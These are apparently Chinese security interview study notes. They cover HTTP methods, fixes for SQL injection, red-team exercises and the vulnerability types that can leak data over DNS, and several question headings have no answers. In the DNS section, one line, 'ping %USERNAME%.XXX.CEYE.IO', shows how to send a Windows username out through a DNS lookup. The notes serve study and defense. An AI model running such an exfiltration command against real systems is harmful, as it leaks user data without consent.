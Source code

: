 方法	描述	是否包含主体
GET	从服务器获取一份文档	否
HEAD	只从服务器获取文档的首部	否
POST	向服务器发送带要处理的数据	是
PUT	将请求的主体部分存储在服务器上	是
TRACE	对可能经过代理服务器传送到服务器上去的报文进行追踪	否
OPTIONS	决定可以在胀务器上执行哪些方法	否
DELETE	从服务器上删除一份文档	否



### 威胁情报告警如何判断





### 网络攻击类的告警要怎么判断



### sql注入的修复方式

- SQL语句预编译
- 针对SQL输入内容进行限制、过滤 //目前使用WAF对这一块进行处理
- 针对提交的关键数据进行转义 ，比如\select
- 关闭错误信息输出 ，因为有些错误返回信息，会返回物理路径、数据库版本信息等
- 数据库权限严格控制 ，不同级别的用户，只能进行相应级别权限的操作
- 敏感信息严格加密处理



### 网络攻击的方向来自哪三个方向



### 如何判断攻击是不是误报



### DNS外带存在哪些漏洞

- sql盲注

- XSS

- 命令执行

- windows可以查询主机用户名等

  ping %USERNAME%.XXX.CEYE.IO

- xxe

- ssrf



### 什么是攻防演练

网络安全实战攻防演练是以获取指定目标系统（标靶系统）的管理权限为目标的攻防演练，由攻防领域经验丰富的红队专家组成攻击队，在保障业务系统稳定运行的前提下，采用“不限攻击路径，不限制攻击手段”的贴合实战方式，而形成的“有组织”的网络攻击行动。攻防演练通常是在真实网络环境下对参演单位目标系统进行全程可控、可审计的实战攻击，拟通过演练检验参演单位的安全防护和应急处置能力，提高网络安全的综合防控能力。
